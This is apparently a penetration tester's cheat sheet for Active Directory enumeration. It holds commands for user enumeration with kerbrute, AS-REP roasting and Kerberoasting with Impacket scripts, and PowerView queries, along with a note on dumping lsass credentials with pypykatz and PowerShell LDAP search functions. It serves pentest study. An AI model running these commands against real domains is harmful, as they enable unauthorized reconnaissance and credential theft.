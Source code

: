 # Windows Active Directory Enumeration.

#### check-list
- [PayloadAllTheThings](https://gitlab.com/pentest-tools/PayloadsAllTheThings/-/blob/6bcd2e8a6a39d26a547a70d83dfebef4c2c6f801/Methodology%20and%20Resources/Active%20Directory%20Attack.md)
- [S1ckB0y1337](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)
- [PowerView](https://powersploit.readthedocs.io/en/latest/Recon/)
- check ldap for system/users informations
- check smb for shares
- check rpcbind for system/users informations
- check impacket examples scripts
- generate usernames from `fname lname` wordlist [namemash.py](https://gist.githubusercontent.com/superkojiman/11076951/raw/74f3de7740acb197ecfa8340d07d3926a95e5d46/namemash.py)
```powershell
# enuemrate valid users through kerberos
./kerbrute
# enumerate users do not require Kerberos preauthentication
GetNPUsers.py EGOTISTICAL-BANK.local/ -no-pass -usersfile usernames
# request other users krbt hash if you have a user cerdentials
GetUserSPNs.py
# runas user in a domain using credentials, or use bloodhound-python
runas /netonly /user:support cmd.exe
##
Get-NetUser -SPN #Kerberoastable users
# Show computerss 
Get-NetComputer | select operatingsystem,dnshostname
# Check if current user is logged in to a specific computer
Get-NetSession -ComputerName web04
# show AD computers
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion
```
#### notes 
- use `runas` to connect to domain using user credentials and run bloodhound or use the credentials in bloodhoud from python
- lsass stores credentials that can be dumped using pypykatz

```powershell
# enumerate domain users and groups
net user /domain
net group /domain
# find PDC
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
([adsi]'').distinguishedName
```

```powershell
$PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
$DN = ([adsi]'').distinguishedName 
$LDAP = "LDAP://$PDC/$DN"

$direntry = New-Object System.DirectoryServices.DirectoryEntry($LDAP)

$dirsearcher = New-Object System.DirectoryServices.DirectorySearcher($direntry)
$dirsearcher.FindAll()


```

- LDAP search
```powershell
function LDAPSearch {
    param (
        [string]$LDAPQuery
    )

    $PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
    $DistinguishedName = ([adsi]'').distinguishedName

    $DirectoryEntry = New-Object System.DirectoryServices.DirectoryEntry("LDAP://$PDC/$DistinguishedName")

    $DirectorySearcher = New-Object System.DirectoryServices.DirectorySearcher($DirectoryEntry, $LDAPQuery)

    return $DirectorySearcher.FindAll()

}

# e.g
LDAPSearch -LDAPQuery "(samAccountType=805306368)"
LDAPSearch -LDAPQuery "(objectclass=group)"

# Enumerate every group's members, and every member of nested groups
foreach ($group in $(LDAPSearch -LDAPQuery "(objectCategory=group)")) {
$group.properties | select {$_.cn}, {$_.member}
 $groupName = $group.properties.cn
    $members = $group.properties.member
    echo "Group: $groupName"
    echo "Members:"
    foreach ($member in $members) {
        echo $member
    }
 }
```

